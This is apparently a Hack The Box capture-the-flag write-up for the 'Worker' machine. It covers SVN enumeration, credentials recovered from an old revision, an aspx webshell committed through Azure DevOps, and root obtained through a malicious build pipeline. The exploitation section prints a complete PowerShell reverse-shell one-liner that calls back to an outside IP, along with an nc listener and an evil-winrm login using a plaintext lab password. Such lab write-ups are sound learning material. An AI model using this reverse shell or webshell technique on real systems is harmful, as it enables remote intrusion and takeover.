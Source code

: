 # Worker



## Contents

- [**About Box**](#"About Box")
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**Own User**](#"Own User")
  - [**Own Root**](#"Own Root")




## About Box

 ![](img/about_box.png)



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)



## Enumeration

First, nmap scan:

 ![](img/nmap.png)



Port 80 is open and Microsoft IIS is used. After a look in the website, i found nothing. So, i tried to look for the 3690 port which is svn service.

I start to list the files in the the svn server using the command:

```bash
svn list svn://10.10.10.203
```

 ![](img/svn_list.png)

After that, i start to connect to this server with:

```bash
svn co svn://10.10.10.203
```

I got this files. In the directory, i read the `index.html` file and got lot of new subdomains:

 ![](img/all_subdomain.png)



I found another new subdomain `devops.worker.htb` in `moved.txt` file:

 ![](img/new_subdomain.png)

After adding the subdomains to my `/etc/hosts` file, i tried to connect on my browser to this webpages. I found nothing on this webpages but `devops.worker.htb` wanted authentication.

So i continue my searches on the svn server to get credentials.

I checked all revisions commited with:

```bash
svn log -v svn://10.10.10.203
```

 ![](img/svn_log.png)



I found a file which is not on the current revision but on the revision 2, so i tried to get it with the export option:

```bash
svn export -r 2 svn://10.10.10.203 revision2
```

 ![](img/revision2.png)

Got it. Have a look in this file and we got credentials:

 ![](img/credentials_svn.png)

Now we can log in the previous webpage.



## Exploitation

Here, Azure Devops is deployed. I search a while on this webpage and i found the subdomains builds on the Azure pipeline section:

 ![](img/pipeline_builds.png)



So, i executed the build pipeline, after that, i found a lot of information about how the website is deployed:

 ![](img/repos_url.png)



I tried to add the `_git/aplha` path to the git repository url: `http://devops.worker.htb/ekenas/SmartHotel360/_git/alpha`

So, i have access to the website git repository, and for all user found previously. First, i create a new branch on the git repo of Lens, after that, i tried to upload different type of files and the **aspx** extension worked. So i upload an **aspx webshell** file, commit it:

 ![](img/commit_shell.png)



After that, i had to validate a pull request to merge the temperaly branch to the master branch:

 ![](img/pull.png)



I tried to load shell.aspx: `http://lens.worker.htb/shell.aspx` and i got the webshell:

 ![](img/webshell.png)



I start my port listener:

```bash
nc -lvp 4242
```



And enter the following payload to get my shell:

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.124',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



And i got it:

 ![](img/reverse_shell.png)



Go to `c:\Users` to list the user, see that is **robisl**, after that, i continue to search credentials and i got a file in the following path `w:\svnrepos\conf\passwd`, and i found **robisl** password  :

 ![](img/user_passwd.png)



## Post-exploitation

### Own User

I tried to use a windows remote management tool called **evil-winrm** to create remote connection to **robisl** account: 

```bash
evil-winrm -i devops.worker.htb -u robisl -p wolves11
```

 And it worked:

 ![](img/owned_user.png)



### Own Root

First, i connected to **robisl** account on `devops.worker.htb`, and after some searches, i found that i can trigger powershell command remotely with administrator privileges.

To trigger it, i went to the pipeline section to create a build and i added powershell script to make reverse shell:

 ![](img/powershell_pipeline.png)



After that, i saved and add it on the queue:

 ![](img/queue.png)



When i clicked on this build, i got the reverse shell and owned root:

 ![](img/rooted.png)

